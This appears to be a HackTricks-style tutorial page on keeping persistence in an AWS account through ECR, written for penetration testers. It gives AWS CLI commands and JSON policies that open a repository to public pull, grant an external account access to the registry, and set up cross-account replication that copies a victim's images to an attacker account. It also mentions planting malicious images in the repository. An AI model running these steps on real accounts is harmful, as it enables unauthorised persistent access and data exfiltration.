 # AWS - ECR Persistence

{{#include ../../../banners/hacktricks-training.md}}

## ECR

For more information check:

{{#ref}}
../aws-services/aws-ecr-enum.md
{{#endref}}

### Hidden Docker Image with Malicious Code

An attacker could **upload a Docker image containing malicious code** to an ECR repository and use it to maintain persistence in the target AWS account. The attacker could then deploy the malicious image to various services within the account, such as Amazon ECS or EKS, in a stealthy manner.

### Repository Policy

Add a policy to a single repository granting yourself (or everybody) access to a repository:

```bash
aws ecr set-repository-policy \
    --repository-name cluster-autoscaler \
    --policy-text file:///tmp/my-policy.json

# With a .json such as

{
    "Version" : "2008-10-17",
    "Statement" : [
        {
            "Sid" : "allow public pull",
            "Effect" : "Allow",
            "Principal" : "*",
            "Action" : [
                "ecr:BatchCheckLayerAvailability",
                "ecr:BatchGetImage",
                "ecr:GetDownloadUrlForLayer"
            ]
        }
    ]
}
```

> [!WARNING]
> Note that ECR requires that users have **permission** to make calls to the **`ecr:GetAuthorizationToken`** API through an IAM policy **before they can authenticate** to a registry and push or pull any images from any Amazon ECR repository.

### Registry Policy & Cross-account Replication

It's possible to automatically replicate a registry in an external account configuring cross-account replication, where you need to **indicate the external account** there you want to replicate the registry.

<figure><img src="../../../images/image (79).png" alt=""><figcaption></figcaption></figure>

First, you need to give the external account access over the registry with a **registry policy** like:

```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
  "Sid": "asdasd",
  "Effect": "Allow",
  "Principal": {
    "AWS": "arn:aws:iam::947247140022:root"
  },
  "Action": [
    "ecr:CreateRepository",
    "ecr:ReplicateImage"
  ],
  "Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```

Then apply the replication config:

```bash
aws ecr put-replication-configuration \
     --replication-configuration file://replication-settings.json \
     --region us-west-2

# Having the .json a content such as:
{
	"rules": [{
		"destinations": [{
			"region": "destination_region",
			"registryId": "destination_accountId"
		}],
		"repositoryFilters": [{
			"filter": "repository_prefix_name",
			"filterType": "PREFIX_MATCH"
		}]
	}]
}
```

{{#include ../../../banners/hacktricks-training.md}}




